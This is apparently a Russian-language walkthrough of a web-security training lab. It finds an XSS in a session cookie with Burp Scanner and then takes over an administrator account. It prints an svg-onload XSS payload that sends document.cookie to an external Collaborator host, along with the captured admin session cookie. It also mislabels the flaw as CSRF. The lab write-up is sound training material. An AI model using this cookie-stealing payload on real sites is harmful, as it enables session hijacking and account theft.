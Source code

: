 Эта лаборатория содержит уязвимость, которую трудно найти вручную. Она находится в нестандартной структуре данных.

Чтобы решить лабораторную работу, используйте функцию **сканирования выбранной точки вставки** сканера Burp , чтобы определить уязвимость, а затем вручную воспользуйтесь ею и удалите `carlos`.

Вы можете войти в свою учетную запись, используя следующие учетные данные:`wiener:peter`

## Дано

учётка тестовая `wiener:peter`

уязвимость, которую трудно найти вручную, она находится в нестандартной структуре данных.

## Задача

определить уязвимость, а затем вручную воспользуйтесь ею и удалить `carlos`.


# Решение 

Пробежимся по функционалу входа в учётку
- проводим актив скан POST /login (сканнер ничего не нашёл) личная проверка ничего не нашла странного 
- проводим актив скан GET /my-account?id=wiener (сканнер ничего не нашёл) при личном осмотре в `Cookie: session=wiener%3akG1Cl0ud8nccOJzmlmge7FAKNOd7oMpD` сессия имеет символ разделения двоеточия так как я уже с таким сталкивался то проведу проверку на значения после `%3a` 

В самом начале сканирования сессионных кук видим уязвимость СSRF межсайтинговый скриптинг
![[Pasted image 20250210131520.png]]
```
Payload `'"><svg/onload=fetch\`//vony0z9mobt8h9rqxe61gyxgf7l09uxmnae01qpf.oastify.com`>` был отправлен в точку ручного ввода 1. Этот payload предназначен для того, чтобы заставить веб-браузер, который его отображает, выполнить запрос к внешнему домену. HTTP-запрос был отправлен на этот домен, что указывает на то, что payload был отображён и выполнен в веб-браузере. Взаимодействие произошло примерно через 39 секунд после завершения сканирования элемента.

Входящий HTTP-запрос на сервер Collaborator содержал следующий URL в заголовке `Referer`, что может указывать на место, где payload был отображён в веб-браузере:
```

Формируем полезную нагрузку с пэйлоада от сканирования
```
'"><svg/onload=fetch`//kvjths8t07qjoucyqrsk7iyeb5hw5sth\.oastify.com`>:kG1Cl0ud8nccOJzmlmge7FAKNOd7oMpD
```
Добавляем  `${encodeURIComponent(document.cookie)}`

Формула
```
'"><svg/onload=fetch(`//YOUR-COLLABORATOR-PAYLOAD/${encodeURIComponent(document.cookie)}`)>:YOUR-SESSION-ID
```

Итоговая нагрузка
```
'"><svg/onload=fetch(`//kvjths8t07qjoucyqrsk7iyeb5hw5sth\.oastify.com/${encodeURIComponent(document.cookie)}`)>:kG1Cl0ud8nccOJzmlmge7FAKNOd7oMpD
```

Получили
![[Pasted image 20250210132821.png]]
```
GET /session%3Dadministrator%253aKZBJQgaajvF1y2ORdWN36TrUSS7mtaIh%3B%20secret%3DIciRmU8KUP8kvTo4IW673MEcPIdf016O%3B%20session%3Dadministrator%253aKZBJQgaajvF1y2ORdWN36TrUSS7mtaIh HTTP/1.1
```

```
session=administrator:KZBJQgaajvF1y2ORdWN36TrUSS7mtaIh; secret=IciRmU8KUP8kvTo4IW673MEcPIdf016O; session=administrator:KZBJQgaajvF1y2ORdWN36TrUSS7mtaIh
```


